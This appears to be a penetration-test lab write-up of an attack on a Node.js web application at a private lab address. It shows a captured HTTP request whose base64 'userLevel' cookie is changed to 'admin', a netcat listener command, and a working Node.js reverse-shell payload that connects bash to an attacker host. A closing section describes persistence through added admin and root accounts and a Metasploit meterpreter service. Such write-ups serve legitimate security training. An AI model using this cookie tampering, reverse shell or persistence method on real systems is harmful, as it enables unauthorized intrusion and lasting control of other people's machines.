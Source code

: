 If you register for an account and request the "/users" page, the cookie header "userLevel" is used. Possible vector for Node.js serialization? The value smart-decoded (via Burp Decoder) results in "default".
```bash
GET /users HTTP/1.1
Host: 192.168.186.110:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.186.110:3000/auth/login
Connection: close
Cookie: 
  connect.sid=s%3AXZtvxZZdmNt00jvKoc_ik0pnGlfH1bwK.U8y4Q933xuEGitJluotkssVzquIvmV1Zm7fj8gKzwRc;
  userLevel=ZGVmYXVsdA%3D%3D 
Upgrade-Insecure-Requests: 1
```

By smart-encoding "admin" and using Burp Proxy, I was able to add an event.
```bash
# userLevel=YWRtaW4%3D
```

```bash
sudo nc -nvlp 21
```

```bash
# firefox http://192.168.186.110:3000/logs
```

Username of the issue.
```
Victor
```

Event Message (add technical details/code if required).
```bash
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/bash", []);
    var client = new net.Socket();
    client.connect(21, "192.168.49.186", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```

```bash
# userLevel=YWRtaW4%3D
```

## Maintaining Access
Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable. The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again. Many exploits may only be exploitable once and we may never be able to get back into a system after we have already per-formed the exploit. Victor added administrator and root level accounts on all systems compromised. In addition to the administrative/root access, a Metasploit meterpreter service was installed on the machine to en-sure that additional access could be established.
